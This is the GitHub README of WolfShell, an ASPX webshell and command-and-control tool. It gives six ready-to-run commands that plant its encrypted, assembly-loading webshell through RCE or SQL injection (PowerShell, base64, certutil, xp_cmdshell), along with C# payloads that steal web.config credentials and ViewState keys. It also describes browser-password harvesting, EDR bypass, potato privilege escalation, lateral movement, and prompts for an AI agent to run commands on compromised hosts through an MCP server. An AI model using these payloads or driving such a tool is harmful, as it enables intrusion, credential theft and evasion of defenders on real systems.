[](https://github.com/0x7556) 
[](https://github.com/0x7556/wolfshell/releases) 
[](https://github.com/0x7556/wolfshell/issues) 
[](https://github.com/0x7556/wolfshell) 
[](https://github.com/0x7556/wolfshell)
[](https://github.com/0x7556/wolfshell)

[中文版本](README.md)  |  [English Version](README-EN.md)

## 🐺 幽狼 · Abyss Wolf

Legend has it that in the shadow of every line of code, lurks a wolf from the abyss. It feeds on **abandoned bytes** and nests within **broken protocols**. None have seen its form, for its **claws never leave a mark on the logs**. It does not chase the light, nor does it roar in the wind; it only waits for **that slightly ajar door**. When the **glimmer of privilege leaks through the crack**, the Ghost Wolf **arrives silently**—at that moment, **all alarms fall silent, all processes fall asleep**, as if the whole world never noticed. Only the void remembers: **The Abyss Wolf has arrived, and all is silent.**

---

## WolfShell: The First Advanced WebShell & C2 Management Tool Supporting AI-Guided Penetration

WolfShell is an advanced **WebShell** and **C2 management tool** built for Microsoft **.NET/ASPX** environments. Designed for security research and penetration testing (**Red Teaming**), it provides powerful **command execution**, **privilege escalation**, and **intranet penetration** capabilities. It features a rich set of built-in pentesting tools, integrates **AI-assisted penetration**, and supports **in-memory loading** (fileless execution) to achieve **highly stealthy** internal network pivoting and flexible expansion.

## 🚀 Core Advantages
*   **AI-Guided Penetration:** Supports using natural language to command the AI to operate the WebShell and execute commands for penetration testing.
*   **Efficient and Covert Communication:** Uses a binary stream transmission protocol to ensure both transmission efficiency and communication stealth.
*   **End-to-End Encryption:** All transmitted payloads are protected by AES encryption with a random key or unique session key to ensure data security.
*   **Fileless Execution:** Supports loading and executing code directly in memory, minimizing disk artifacts and significantly enhancing operational stealth and safety.
*   **Cascaded WebShell Controlling:** Connect to and control WebShells located deeper inside internal networks via currently compromised WebShells, without deploying agents or configuring port forwarding.
*   **Post-Exploitation Hacking:** Load penetration tools directly in memory through controlled WebShells to easily achieve efficient lateral movement in internal networks.
*   **Language Features:** The server-side (webshell) and payloads are entirely in English. Only the provided WebShell variant files contain English, Japanese, and Korean.

## 🔥 Features

*   **Shell:** Supports 9 script/payload types (including [ASPX](shell/aspx), [ASHX](shell/ashx), ASMX, [Memory Shells](shell/mem), [EXE](shell/wolf.cs), [PowerShell](shell/wolf.ps1), DLL, MSbuild, and ysoserial deserialization).
*   **Forward Backdoor:** Supports implanting forward backdoors on hosts for cascaded control of the entire internal network (EXE, PS1, DLL, MSbuild, etc.), featuring IIS port multiplexing.
*   **Memory Shell:** One-click injection of ASPX memory shells. Accessible via arbitrary paths; connection URLs can be modified dynamically each time to disrupt Blue Team analysis.
*   **CMD Command Execution:** Execute arbitrary CMD commands directly on target systems. Employs modified `whoami` to bypass EDR logging and alerts.
*   **File Management:** Enumerate folder contents, create files, upload files, execute EXEs, rename, delete, and modify file timestamps on target systems.
*   **PowerShell Execution:** Supports executing PowerShell scripts and commands. Employs modified `whoami` to bypass EDR logging and alerts.
*   **Shellcode Execution:** Directly execute native Shellcode in target environments for one-click sessions in Cobalt Strike or Metasploit.
*   **.NET Assembly Execution:** Supports loading and executing custom .NET assembly binaries in memory for rapid post-exploitation capability expansion.
*   **In-Memory Scanner:** Transform a single-IP .NET tool into an in-memory Class-C subnet scanner via this module.
*   **C# Code Execution:** Supports dynamic loading and execution of C# code. You can copy sample code and instruct the AI to modify it, rapidly boosting capabilities.
*   **ValidationKey:** Extract ViewState deserialization keys and configurations such as ValidationKey, Validation, DecryptionKey, etc.
*   **web.config Reader:** Extract database connection strings (database name, user, password), SMTP/email server credentials, and more.
*   **Port Forwarding:** Map local ports to remote internal network hosts for secure access to internal network services.
*   **HTTP Proxy:** One-click in-memory injection of the Suo5 high-performance HTTP tunnel proxy.
*   **EfsPotato:** Elevate privileges by exploiting system service vacancies or vulnerabilities.
*   **BadPotato:** Elevate privileges by exploiting system service vacancies or vulnerabilities.
*   **Cascaded CMD Execution:** Run CMD commands on second-tier internal WebShells for lateral movement.
*   **Cascaded PowerShell Execution:** Run PowerShell commands on second-tier internal WebShells for lateral movement.
*   **SshCmd:** SSH remote command runner supporting remote command execution, file upload, and download for internal network lateral movement.
*   **MysqlCmd:** MySQL database client to connect to internal MySQL targets to run queries, import/export data, etc.
*   **MssqlCmd:** SQL Server database client to connect to internal databases to run queries, import/export, perform lateral movement, execute commands, and run potato exploits.
*   **SharpWeb:** Browser credential harvester supporting the extraction of saved Chrome, Firefox, and Edge login info and credentials.
*   **Credential Harvesting:** IISpwd, wifipwd, FileZillaPwd, firefoxpwd, XshellPwd, GetPwd, FirefoxHistory, FirefoxCookie.
*   **Vulnerability Detection:** MS17010, SMBGhost, HikvisionPoc, ActivemqPoc, Struts2Poc, WeblogicPoc, CVE-2022-36537, CVE-2024-47176, CVE-2022-27925, CVE-2024-27956.
*   **Lateral Movement:** wshell, SmbExec, WmiExec, WmiExec2, AtExec, MssqlCmd, MmcExec, ShellExec, ShellBrowserExec.
*   **AI Anti-Virus Bypass:** Leverage integrated AI to bypass EDR/AV detections on WebShells via chat.
*   **Ladon:** An internal network penetration toolkit loaded entirely in memory (fileless). Includes port scanning, asset discovery, credential auditing, vulnerability detection/exploitation, and lateral movement. *(Under integration: over 10 discovery protocols completed. For modules not yet supported, please use the original Ladon tool).*
*   **AddUser:** Bypass EDR/XDR to add local users, administrators, domain users, or domain admins.
*   **NoPowerShell:** Execute PowerShell commands, code, or scripts without using or spawning `powershell.exe`.

## Auxiliary Features

### AI Capability
*   **AI AV Bypass:** Leverage integrated AI to bypass EDR/AV detections on WebShells via chat.
*   **AI Penetration:** Built-in MCP server to command AI for post-exploitation using natural language.

### Cryptography
*   **Encoding/Encryption Support:** BASE64, HEX, ASCII, PowerShell, MD5, SHA1, SHA256, URL Encoding.
*   **Decoding/Decryption Support:** BASE64, HEX, ASCII, PowerShell, URL Encoding.

## Installation and Usage

1. **Download WolfShell**
```bash
git clone https://github.com/0x7556/wolfshell.git
```

2. **Target Environment**
   - Ensure the target server supports scripting environments like ASPX, ASHX, ASMX, etc.
   - .NET Framework >= 3.5, Windows 7 - Windows Server 2026.

3. **Upload WolfShell**
   - Upload the WebShell file to the target server. The client supports generating 9 different formats, including ASPX, ASHX, and Memory Shells.
   - WebShell scripts: https://github.com/0x7556/wolfshell/tree/main/shell

4. **Access the WebShell**
   - Connect to the WebShell using the tool client. The default password is `WolfShell` (can be modified using the WolfHash encryptor inside the tool).

## Supported Environments

### Client
- **Host OS:** Windows 7 - Windows Server 2026
- **Host .NET Version:** .NET Framework 4.8

### Shell
- **Target OS:** Windows 7 - Windows Server 2026
- **Target .NET Version:** >= .NET Framework 3.5

## Generic GetShell Commands

When RCE (Remote Code Execution) or SQL Injection vulnerabilities are present, the WolfShell WebShell can be written to the target using one of the following 6 methods:


### 1. Write WebShell wolf.aspx via PowerShell
```bash
powershell -Command "Set-Content -Path 'wolf.aspx' -Value '<%@ Page Language=\"C#\" %><%if (Request.Cookies.Count != 0) { byte[] k = Encoding.Default.GetBytes(\"ca63457538b9b1e0\"); System.IO.Stream s = Request.InputStream; byte[] c = new byte[s.Length]; s.Read(c, 0, c.Length); System.Reflection.Assembly.Load(new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length)).CreateInstance(\"K\").Equals(this); }%>'"
```

### 2. Write WebShell wolf.aspx via Base64-Encoded PowerShell
```bash
powershell -EncodedCommand UwBlAHQALQBDAG8AbgB0AGUAbgB0ACAALQBQAGEAdABoACAAIgB3AG8AbABmAC4AYQBzAHAAeAAiACAALQBWAGEAbAB1AGUAIAAnADwAJQBAACAAUABhAGcAZQAgAEwAYQBuAGcAdQBhAGcAZQA9ACIAQwAjACIAIAAlAD4APAAlAGkAZgAgACgAUgBlAHEAdQBlAHMAdAAuAEMAbwBvAGsAaQBlAHMALgBDAG8AdQBuAHQAIAAhAD0AIAAwACkAIAB7ACAAYgB5AHQAZQBbAF0AIABrACAAPQAgAEUAbgBjAG8AZABpAG4AZwAuAEQAZQBmAGEAdQBsAHQALgBHAGUAdABCAHkAdABlAHMAKAAiAGMAYQA2ADMANAA1ADcANQAzADgAYgA5AGIAMQBlADAAIgApADsAIABTAHkAcwB0AGUAbQAuAEkATwAuAFMAdAByAGUAYQBtACAAcwAgAD0AIABSAGUAcQB1AGUAcwB0AC4ASQBuAHAAdQB0AFMAdAByAGUAYQBtADsAIABiAHkAdABlAFsAXQAgAGMAIAA9ACAAbgBlAHcAIABiAHkAdABlAFsAcwAuAEwAZQBuAGcAdABoAF0AOwAgAHMALgBSAGUAYQBkACgAYwAsACAAMAAsACAAYwAuAEwAZQBuAGcAdABoACkAOwAgAFMAeQBzAHQAZQBtAC4AUgBlAGYAbABlAGMAdABpAG8AbgAuAEEAcwBzAGUAbQBiAGwAeQAuAEwAbwBhAGQAKABuAGUAdwAgAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBSAGkAagBuAGQAYQBlAGwATQBhAG4AYQBnAGUAZAAoACkALgBDAHIAZQBhAHQAZQBEAGUAYwByAHkAcAB0AG8AcgAoAGsALAAgAGsAKQAuAFQAcgBhAG4AcwBmAG8AcgBtAEYAaQBuAGEAbABCAGwAbwBjAGsAKABjACwAIAAwACwAIABjAC4ATABlAG4AZwB0AGgAKQApAC4AQwByAGUAYQB0AGUASQBuAHMAdABhAG4AYwBlACgAIgBLACIAKQAuAEUAcQB1AGEAbABzACgAdABoAGkAcwApADsAIAB9ACUAPgAnAA==
```

### 3. Write WebShell wolf.aspx via cmd echo & certutil
```bash
echo 3c25402050616765204c616e67756167653d2243232220253e3c2569662028526571756573742e436f6f6b6965732e436f6f6b6965732e436f756e7420213d203029207b20627974655b5d206b203d20456e636f64696e672e44656661756c742e476574427974657328223961613337623163323561303834653022293b2053797374656d2e494f2e53747265616d2073203d20526571756573742e496e70757453747265616d3b20627974655b5d2063203d206e657720627974655b732e4c656e6774685d3b20732e5265616428632c20302c20632e4c656e677468293b2053797374656d2e5265666c656374696f6e2e417373656d626c792e4c6f6164286e65772053797374656d2e53656375726974792e43727970746f6772617068792e52696a6e6461656c4d616e6167656428292e437265617465446563727970746f72286b2c206b292e5472616e73666f726d46696e616c426c6f636b28632c20302c20632e4c656e67746829292e437265617465496e7374616e636528224b22292e457175616c732874686973293b207d253e > w.hex && certutil -f -decodehex w.hex wolf.aspx && del w.hex
```

### 4. Write WebShell wolf.aspx via cmd echo
```bash
echo ^<%@ Page Language="C#" %^> > wolf.aspx && echo ^<% if (Request.Cookies.Count != 0) { >> wolf.aspx && echo byte[] k = Encoding.Default.GetBytes("ca63457538b9b1e0"); >> wolf.aspx && echo System.IO.Stream s = Request.InputStream; >> wolf.aspx && echo byte[] c = new byte[s.Length]; >> wolf.aspx && echo s.Read(c, 0, c.Length); >> wolf.aspx && echo System.Reflection.Assembly.Load(new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length)).CreateInstance("K").Equals(this); >> wolf.aspx && echo } %^> >> wolf.aspx
```

### 5. Write WebShell wolf.aspx via SQL Injection xp_cmdshell
```bash
'; EXEC xp_cmdshell 'echo ^<%@ Page Language="C#" %^> > C:\inetpub\wwwroot\wolf.aspx && echo ^<% if (Request.Cookies.Count != 0) {>> C:\inetpub\wwwroot\wolf.aspx && echo byte[] k = Encoding.Default.GetBytes("ca63457538b9b1e0");>> C:\inetpub\wwwroot\wolf.aspx && echo System.IO.Stream s = Request.InputStream;>> C:\inetpub\wwwroot\wolf.aspx && echo byte[] c = new byte[s.Length];>> C:\inetpub\wwwroot\wolf.aspx && echo s.Read(c, 0, c.Length);>> C:\inetpub\wwwroot\wolf.aspx && echo System.Reflection.Assembly.Load(new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length)).CreateInstance("K").Equals(this);>> C:\inetpub\wwwroot\wolf.aspx && echo } %^> >> C:\inetpub\wwwroot\wolf.aspx'; --
```

### 6. Compile EXE Forward Backdoor C2
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /out:wolf.exe wolf.cs
```
*Note: Users can customize this codebase, adding startup items to achieve persistence. Combined with the cascading module, this enables internal network lateral movement. You can also compile this as a DLL to control multiple internal machines via DLL hijacking.*

### PowerShell Forward Backdoor C2
```bash
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -File wolf.ps1
```

### IIS Port Multiplexing Backdoor
If the target runs IIS, both the PowerShell and EXE variants support port multiplexing.


## Feature Demos

### Custom .NET Program Executions
Executes custom .NET assemblies inside memory for fast capability expansion.


# AI Capability

## AI Anti-Virus Bypass
Use AI to obfuscate/bypass antivirus detections for the WolfShell WebShell server-side code.


## AI Penetration / Pentest

### Cherry Studio MCP Configuration
```json
"mcpServers": {
  "xf5pBIECy50rKmx53Gy7n": {
    "name": "WolfShellMCP",
    "type": "stdio",
    "description": "",
    "isActive": true,
    "command": "C:\\Users\\Administrator\\Downloads\\wolfshell-main\\WolfShellMCP.exe",
    "args": [],
    "env": {
      "WOLFSHELL_API": "http://127.0.0.1:7556"
    }
  }
}
```
* Same configurations apply to other clients. PRs for client configs are welcome! Cross-platform MCP supports Windows, Linux, and MacOS.
* For Kali users, download the `lnx` release, and set the environment variable `WOLFSHELL_API` to the remote API address of the Windows machine running WolfShell.
* WolfShell AI Shell MCP Repository: https://github.com/0x7556/PentestMCP/releases/tag/wolfshellmcp3.4

### Start AI Server API
Navigate to the "AI -> MCP" tab in the WolfShell tool client, and click the "API MCP Server" button.


### 1. Execute CMD Commands via WolfShell URL and Password
Allows the AI to automatically interact with the shell upon exploit completion, verified by successful command execution to prevent false 200 OK positives.
**Example Prompts:**
- Use WolfShell http://192.168.50.106/shell.aspx Wolf8888 to execute CMD command: whoami
- Use WolfShell http://192.168.1.11/wolf.aspx WolfShell to execute CMD command: systeminfo


### 2. Execute CMD Commands via WolfShell ID (Pre-configured in Client)
Avoids leaking the target WebShell URL and passwords to third-party AI models.
**Example Prompts:**
- Use WolfShell ID 9 to execute CMD command: whoami


### 3. Execute PowerShell Commands via WolfShell URL and Password
Checks for command execution functionality to verify active sessions.
**Example Prompts:**
- Use WolfShell http://192.168.1.11/wolf.aspx WolfShell to execute PowerShell command: whoami
- Use WolfShell http://192.168.1.11/wolf.aspx WolfShell to execute PowerShell command: systeminfo


### 4. Execute PowerShell Commands via WolfShell ID
Avoids leaking target parameters to the AI model.
**Example Prompts:**
- Use WolfShell ID 9 to execute PowerShell command: ipconfig
- Use WolfShell ID 9 to execute PowerShell command: Get-NetIPAddress


### 5. AI Pen-testing Video Demo
https://github.com/0x7556/hackvideo/blob/main/Wolf%20AI%20Shell.mov

### 6. Upload Files via AI
**Example Prompts:**
- Use WolfShell http://192.168.50.106/shell.aspx Wolf8888 to upload file `C:\Users\Administrator\Desktop\TestTest\wolf.exe` to target's `Public` folder.
- Use WolfShell ID 9 to upload file `C:\Users\Administrator\Desktop\TestTest\wolf.exe` to target's `Public` folder.


### 7. Privilege Escalation via EfsPotato
**Example Prompts:**
- Use WolfShell ID 9 to run EfsPotato executing: whoami
- Use WolfShell http://192.168.50.106/shell.aspx Wolf8888 to run EfsPotato executing: whoami


### 8. Privilege Escalation via BadPotato
**Example Prompts:**
- Use WolfShell ID 9 to run BadPotato executing: whoami
- Use WolfShell http://192.168.50.106/shell.aspx Wolf8888 to run BadPotato executing: whoami


## Cascaded Controlling of Subnets & C2

### Cascaded Command Execution on Tier 3 Internal WebShells
Establish a path through entry point `192.168.50.106`, hopping through internal host `192.168.50.159`, to execute commands on the Tier 3 subnet target `192.168.50.69`.
*Note: External hops can also be cascaded. If servers are used as stepping stones, a footprint target on Tier 3 will find it extremely difficult to trace back to your actual IP address.*


### Cascaded Command Execution on Tier 2 Internal WebShells
Routing command execution through entry point `192.168.50.159` to execute commands on host `192.168.50.106`.


### Direct CMD Execution on WebShell Entry Point


### Direct PowerShell Execution on WebShell Entry Point
* Custom implementation of `whoami` (not spawning native system binary `whoami.exe`).
* Supports code/command execution up to 9k in length.
* Typing `info` or `ver` displays properties like OS version, architecture, .NET version, and PowerShell version.
* Typing `whoami` or `username` formats PowerShell code natively to retrieve caller information.
* Base64 encrypted command execution format: e.g., `base64:ZWNobyBXb2xmU2hlbGw=`

```csharp
PS C:\Users\admin>whoami
whoami: IIS APPPOOL\DefaultAppPool
Username: WIN-021V7TK43N5$

PS C:\Users\admin>info
Operating System Version: Microsoft Windows Server 2019 Datacenter 64 bit
Version Number: 10.0.17763

PowerShell Version:
5.1.17763.1

.NET Detailed Versions:
PSChildName Version   Release
----------- -------   -------
Client      4.7.03190  461814

PS C:\Users\admin>base64:ZWNobyBXb2xmU2hlbGw=
WolfShell

PS C:\Users\admin>Write-Host "Current User:`n$env:USERNAME"
Current User:
WIN-021V7TK43N5$
```



### File Management



### C# Code Execution

#### Web Configuration Key Retrieval (ValidationKey)
*   ValidationKey: Extracts ViewState deserialization keys (ValidationKey, Validation, DecryptionKey, etc.).

```csharp
using System;
using System.Reflection;
using System.Web.Configuration;
public class Eval
{
public string eval(Object obj)
{
var sy = Assembly.Load("System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a");
var mkt = sy.GetType("System.Web.Configuration.MachineKeySection");
var gac = mkt.GetMethod("GetApplicationConfig", BindingFlags.Static | BindingFlags.NonPublic);
var cg = (MachineKeySection)gac.Invoke(null, new object[0]);
return "ValidationKey: " + cg.ValidationKey + " | " + "Validation: " + cg.Validation + " | " + "DecryptionKey: " + cg.DecryptionKey + " | " + "Decryption: " + cg.Decryption + " | " + "CompatibilityMode: " + cg.CompatibilityMode;
}
}
```


#### Class-C Subnet Host Discovery (Ping)
```csharp
using System;
using System.Net;
using System.Net.NetworkInformation;
using System.Text;
using System.Threading.Tasks;
public class Eval
{
public string eval(Object obj)
{
StringBuilder iplist = new StringBuilder();
string baseIP = "192.168.1.";
PingOptions options = new PingOptions();
options.DontFragment = true;
var tasks = new Task[254];
for (int i = 1; i < 255; i++)
{
int ipSuffix = i;
tasks[i - 1] = Task.Run(() =>
{
using (Ping myPing = new Ping())
{
PingReply reply = myPing.Send(baseIP + ipSuffix, 120);
if (reply.Status == IPStatus.Success)
{
lock (iplist)
{
iplist.AppendLine("Alive IP: " + reply.Address.ToString());
}
}
}
});
}
Task.WaitAll(tasks);
return iplist.ToString();
}
}
```


#### CMD Command Runner
```csharp
using System;
using System.Diagnostics;
public class Eval
{
public string eval(Object obj)
{
try
{
Process process = new Process();
process.StartInfo.FileName = "cmd.exe";
process.StartInfo.Arguments = "/c whoami";
process.StartInfo.UseShellExecute = false;
process.StartInfo.RedirectStandardOutput = true;
process.Start();
string result = process.StandardOutput.ReadToEnd();
process.WaitForExit();
return result;
}
catch (Exception ex)
{
return "Error occurred: " + ex.Message;
}
}
}
```


#### Read Credentials from web.config
*   web.config configuration leakage extraction: Fetches database connection parameters (database name, user, password), SMTP details, email account details, etc.

```csharp
using System;
using System.Configuration;
using System.Text;
public class Eval
{
public string eval(Object obj)
{
try
{
var connectionStrings = ConfigurationManager.ConnectionStrings;
var appSettings = ConfigurationManager.AppSettings;
var result = new StringBuilder();
foreach (ConnectionStringSettings connectionString in connectionStrings)
{
result.AppendLine("Connection string name: " + connectionString.Name);
result.AppendLine("Connection string value: " + connectionString.ConnectionString);
result.AppendLine();
}
result.AppendLine();
foreach (string key in appSettings.AllKeys)
{
result.AppendLine("Key: " + key + ", Value: " + appSettings[key]);
}
return result.ToString();
}
catch (Exception ex)
{
return "Error occurred: " + ex.Message;
}
}
}
```



### Encryption / Decryption Tools
*   **Encryption:** BASE64, HEX, ASCII, PowerShell, MD5, SHA1, SHA256, URL Encode
*   **Decryption:** BASE64, HEX, ASCII, PowerShell, URL Decode

#### WolfHash Configuration


#### ASCII Encryption


#### BASE64 Decryption


#### HEX Decryption



### Potato Privilege Escalation Examples

#### efsPotato Elevation


#### badPotato Elevation


### Internal Discovery Scan Examples


### Port Forwarding Examples


### HTTP Tunneling Proxy Examples


## Post-Exploitation Hacking Tools

### SSH Remote Shell Command Runner
```bash
Usage:
sshcmd 192.168.50.128 22 root toor id
sshcmd 192.168.50.128 22 root toor download /tmp/down.rar c:\down.rar
sshcmd 192.168.50.128 22 root toor upload c:\upload.rar /tmp/upload.rar

Keyboard Mode:
sshcmd 192.168.50.128 22 root toor download2 /tmp/down.rar c:\down.rar
sshcmd 192.168.50.128 22 root toor upload2 c:\upload.rar /tmp/upload.rar
```


### MySQL Command Executor
```bash
mysqlcmd host port user pass dbname sqlstr
mysqlcmd host port user pass dbname sqlb64

Demo:
mysqlcmd 192.168.50.139 3306 root WolfShell mysql info
mysqlcmd 192.168.50.139 3306 root WolfShell mysql "SELECT VERSION();"
mysqlcmd 192.168.50.139 3306 root WolfShell mysql "SELECT 3+5"
mysqlcmd 192.168.50.139 3306 root WolfShell mysql c2VsZWN0IDMrNQ==
```


### Browser Credential Harvester
*   SharpWeb: Extracts stored Chrome, Firefox, and Edge login information and credentials.
```bash
Usage:
    SharWeb arg0 [arg1 arg2 ...]

Arguments:
    all       - Retrieve all Chrome, FireFox and IE/Edge credentials.
    full      - The same as 'all'
    chrome    - Fetch saved Chrome logins. e.g. -d Directory
    firefox   - Fetch saved FireFox logins. e.g. -p masterkey -d Directory
    edge      - Fetch saved Internet Explorer/Microsoft Edge logins.

Demo:
    SharWeb all
    SharWeb chrome
    SharWeb chrome -d C:\Output
    SharWeb firefox -p mymasterkey -d C:\Output
    SharWeb edge
=======================================================================
```


### Ladon Penetration Suite Examples
*As of 2025-11-06, research handles discovery features in memory; other tools are under implementation.*
```bash
Usage:
Ladon whoami

Ladon 192.168.50.159/24 ICMP         ICMP Active Host Scan
Ladon 192.168.50.159/24 PortScan     Open Port Services Scan
Ladon 192.168.50.159/24 WebScan      Website Title & Middleware Banner Scan

Ladon 192.168.50.159/24 SmbInfo      SMB Discovery & NTLM System Information
Ladon 192.168.50.159/24 NbtInfo      NBT Discovery & NTLM System Information
Ladon 192.168.50.159/24 WmiInfo      WMI Discovery & NTLM System Information
Ladon 192.168.50.159/24 LdapInfo     LDAP Discovery & NTLM System Information
Ladon 192.168.50.159/24 RdpInfo      RDP Discovery & NTLM System Information
Ladon 192.168.50.159/24 SmtpInfo     SMTP Discovery & NTLM System Information
Ladon 192.168.50.159/24 HttpInfo     HTTP Discovery & NTLM System Information
Ladon 192.168.50.159/24 WinrmInfo    WinRM Discovery & NTLM System Information
Ladon 192.168.50.159/24 MssqlInfo    MSSQL Database Discovery & NTLM System Info

Ladon 192.168.50.159/24 FtpInfo      FTP Discovery
Ladon 192.168.50.159/24 T3Info       Weblogic T3 Protocol Discovery
Ladon 192.168.50.159/24 CiscoInfo    Cisco Router Discovery
Ladon 192.168.50.159/24 SnmpInfo     SNMP Device Discovery (Routers, Switches, etc.)

Ladon 192.168.50.159/24 OxidInfo     Multi-NIC Windows Node Discovery
Ladon 192.168.50.159/24 EthInfo      Multi-NIC Windows Node Discovery
Ladon http://0x7556.org WPinfo       WordPress Version, Plugin & Vulnerability Discovery
Ladon 192.168.50.159/24 DnsInfo      DNS Host Resolution & Domain Mapping
```

#### SMB Host OS Fingerprinting via NTLM


#### WebScan: Website Title & Web Server Banner Scanning


### Port Scanning Examples
```bash
PortScan 192.168.50.159
PortScan 192.168.50.159 80,22,135,445
```



## MS17010 Vulnerability Detection



## SQL Server Database Lateral Movement & Privilege Escalation



## Xshell Decrypt Password



## webkey Decrypt Credentials
Parses `web.config` configurations to extract `ValidationKey` (to generate ViewState serialized payloads targeting Exchange/SharePoint backdoors).



## CVE-2025-55182 Next.js RCE Exploiting Tool
`[+]CVE-2025-55182` or `[+]NextJSexp` for exploiting Next.js RCE conditions.



## CVE-2026-48907 Joomla JCE Editor RCE Vulnerability Scanning
`[+]CVE-2026-48907 http://target.com`



## Local Execution of Tools/EXPs
To run these post-exploitation toolkits locally: execute `HackTest.exe`, add your WebShell API URL (e.g. `http://127.0.0.1:8080/wolfshell`), right-click on the target entry -> **Hacking Post-Exploitation Toolset** -> Select your desired exploit tool to display its usage, and submit commands in the interface.


## Fileless Memory-Loaded Subnet Scanner

### Memory-Loaded Scanner Module
* Convert any compiled single-target .NET executable (.EXE) into a Class-C subnet scanner inside memory.
* Requirement: Target classes and methods must be declared as `public`.

#### Custom Tool Original Usage
```bash
F:\py>urltitle.exe 192.168.50.1
URL: http://192.168.50.1/ | Status: 200 | Banner: httpd/2.0 | Title: No Title
```

#### Transform to Class-C Memory Subnet Scanner
Instructions:
1. Drag and drop the target compiled EXE into the "ExePath" text field.
2. Set the CIDR range to scan in the "Class C" text field (e.g., `192.168.1.0/24`).
3. Click "Scan" to start the in-memory execution scan.
*Note: The tool initiates an ICMP (Ping) check first, executing the assembly only on active targets. If ICMP is disabled on the target subnet, uncheck "ICMP Probe" to run the scanner directly on all hosts.*


#### Memory Scanner Built-in MS17010 Vulnerability Scan


## Disclaimer
* When running WolfShell properties, ensure compliance with relevant laws and regulations. Only test targets on networks you are fully authorized to test.
* This tool is built entirely for educational and research purposes. Users assume all responsibility for any misuse or damage caused by this utility.


## Contributions
All forms of contributions are welcome. Please submit an issue, suggestion, or pull request!


## License
This project is licensed under the MIT License. See [LICENSE](LICENSE) for details.


## Project Credits & Links
Tools either integrated or planned for in-memory execution. Note: Some tools (e.g., SweetPotato or GodPotato) may require disk deployment via CMD to handle compatibility issues.
- Ladon (Internal Pentest Framework): https://github.com/k8gege/Ladon
- gpt4free (Free AI API wrappers): https://github.com/xtekky/gpt4free
- SharpWeb (Browser Password Recovery): https://github.com/djhohnstein/SharpWeb
- suo5 (HTTP Tunneling agent): https://github.com/zema1/suo5
- BadPotato (Windows Privilege Escalation): https://github.com/BeichenDream/BadPotato
- EfsPotato (Windows Privilege Escalation): https://github.com/zcgonvh/EfsPotato
- CVE-2025-59287 Memory Forward Shell payload: https://github.com/0x7556/CVE-2025-59287


## Community
Follow updates on WeChat and GitHub. Your stars, follows, and feedback are the driving forces of this project's updates.
 
